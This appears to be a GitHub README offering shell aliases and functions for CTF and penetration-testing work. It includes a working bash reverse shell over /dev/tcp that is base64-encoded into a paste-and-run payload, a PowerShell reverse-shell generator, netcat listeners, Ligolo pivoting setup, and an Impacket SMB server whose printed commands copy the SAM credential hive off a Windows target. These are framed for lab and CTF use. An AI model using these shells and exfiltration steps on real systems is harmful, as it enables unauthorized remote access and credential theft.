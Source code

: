 # Custom Linux Aliases for CTF and Penetration Testing

This repository contains helpful Linux aliases for tasks like web server provisioning, directory enumeration, reverse shell generation, pivoting, and SMB server setup, commonly used in Capture The Flag (CTF) challenges and penetration testing exercises.

## Aliases Overview

### 1. Start Provisional Web Server

This alias quickly spins up a Python HTTP server, providing access to your Offensive Security tools.

```bash
alias pyweb='python3 -m http.server -d /home/david/Offensive-Security-Tools/ 8888'
```

**Usage:**

To start the web server on port 8888, just run:

```bash
pyweb
```

This will serve files from the /home/david/Offensive-Security-Tools/ directory.

### 2. Directory Enumeration with Dirsearch

This alias simplifies running dirsearch, a popular web directory brute-forcing tool.

```bash
alias dirsearch='python3 /home/david/Offensive-Security-Tools/Enumeration/dirsearch/dirsearch.py'
```

**Usage:**

To use dirsearch, run:

```bash
dirsearch -u <URL>
```

Replace <URL> with the target URL. This command will enumerate directories and files on the target web server.

### 3. Generate PowerShell Reverse Shell (Base64 Encoded)

The basepower function generates a PowerShell reverse shell payload, encoded in Base64, and copies it to the clipboard.

```bash
basepower() {
    IP=$(ip -f inet addr show tun0 | sed -En -e 's/.*inet ([0-9.]+).*/\1/p')
    python3 /home/david/Offensive-Security-Tools/ReverseShells/PowerShellGenerators/autoPowerShellGen.py $IP "$1" | xclip -selection clipboard
    xclip -out -selection clipboard
    sudo nc -nlvp $1
}
```

**Usage:**

To generate a reverse shell on a specific port:

```bash
basepower <PORT>
```


This command:

- Grabs your IP from the tun0 interface.
- Runs a script to generate a reverse shell payload for PowerShell.
- Copies the payload to the clipboard.
- Starts a Netcat listener on the specified port.

### 4. Generate Bash Reverse Shell (Base64 Encoded)

This alias generates a bash reverse shell payload, encodes it in Base64, and copies it to the clipboard.

```bash
basebash() {
    IP=$(ip -f inet addr show tun0 | sed -En -e 's/.*inet ([0-9.]+).*/\1/p')
    rev="/bin/bash -i >& /dev/tcp/$IP/$1 0>&1"
    brev=$(echo -n "$rev" | base64)
    echo "echo $brev | base64 -d | bash" | xclip -selection clipboard
    xclip -out -selection clipboard
    sudo nc -nlvp $1
}
```


**Usage:**

To generate the reverse shell on a specific port:

```bash
basebash <PORT>
```

This will:

- Generate a bash reverse shell payload.
- Encode the payload in Base64.
- Copy it to the clipboard.
- Start a Netcat listener on the specified port.

### 5. Set up Ligolo Server for Pivoting

This alias sets up a Ligolo server to enable tunneling for pivoting purposes.

```bash
ligon() {
    sudo ip tuntap add user david mode tun ligolo
    sudo ip link set ligolo up
    /home/david/Offensive-Security-Tools/Pivoting/ligolo-proxy -selfcert
}
```

**Usage:**

To set up the Ligolo server, simply run:

```bash
ligon
```

This will:

- Create a tun interface.
- Set up the Ligolo proxy with a self-signed certificate.

### 6. SMB Server Setup

This function helps in setting up an SMB server using Impacket.

```bash
smbserver() {
        IP=$(ip -f inet addr show tun0 | sed -En -e 's/.*inet ([0-9.]+).*/\1/p')
        echo "########################################################"
        echo "Commands to use the shared folder:"
        echo -E "- net use \\\\$IP\share david /user:david"
        echo -E "- net use Z: \\\\$IP\share david /user:david"
        echo -E "- copy sam.save \\\\$IP\share\ "
        echo -E "- robocopy \\\\$IP\share\\netcat .\ nc.exe"
        echo "########################################################"
impacket-smbserver share $1 -smb2support -user david -password david
}
```

**Usage:**

To set up an SMB server with a specific shared directory:

```bash
smbserver <SHARE_DIRECTORY>
```


This will:

- Grab the IP assigned to the VPN tunnel used to connect to the CTF.
- Print some useful SMB commands for accessing the share from a Windows machine.
- Start an SMB server using Impacket with the provided directory as the share.

### 7. Git Repository Dumper

This alias allows you to dump the contents of a remote git repository to a local directory.

```bash
gitdump() {
    if [ $# -lt 2 ]
    then
        echo "No arguments supplied"
        echo "gitdump remoteurl localDirectory"
        echo "Example: gitdump http://10.10.16.8/ ../savegitdirectory"
    else
        python3 /home/david/Offensive-Security-Tools/Miscellaneous/git-dumper/git_dumper.py $1 $2
    fi
}
```

**Usage:**

To dump a git repository:

```bash
gitdump <REMOTE_URL> <LOCAL_DIRECTORY>
```

Replace <REMOTE_URL> with the URL of the git repository and <LOCAL_DIRECTORY> with the directory where you want to save it.

## Acknowledgements

This configuration was inspired by various configurations available online. Special thanks to the community for their contributions and shared knowledge.

---

Feel free to contribute to this repository by opening issues or submitting pull requests with improvements and suggestions.
